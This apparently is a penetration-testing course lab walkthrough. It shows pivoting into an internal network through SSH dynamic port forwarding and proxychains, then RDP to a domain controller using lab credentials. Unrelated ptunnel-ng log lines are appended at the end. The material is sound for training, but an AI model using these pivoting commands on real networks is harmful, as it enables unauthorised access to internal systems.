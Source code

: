 Answer: `3`

# Dynamic Port Forwarding with SSH and SOCKS Tunneling

## Question 2

### "Apply the concepts taught in this section to pivot to the internal network and use RDP to take control of the Windows target. Submit the contents of Flag.txt located on the Desktop."

After spawning the target machine, students need to connect to it with SSH using dynamic port forwarding utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh -D 9050 ubuntu@STMIP
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -D 9050 ubuntu@10.129.144.70

ubuntu@10.129.144.70's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

ubuntu@WEB01:~$ 
```

Students then need to confirm that on `Pwnbox`/`PMVPN`, the `proxychains.conf` file has the `SOCKS4 127.0.0.1 9050` entry:

Code: shell

```shell
tail -4 /etc/proxychains.conf
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

Subsequently, students need to connect through the target pivot host to the DC on the internal network from `Pwnbox`/`PMVPN`, utilizing the credentials `victor:pass@123`:

Code: shell

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.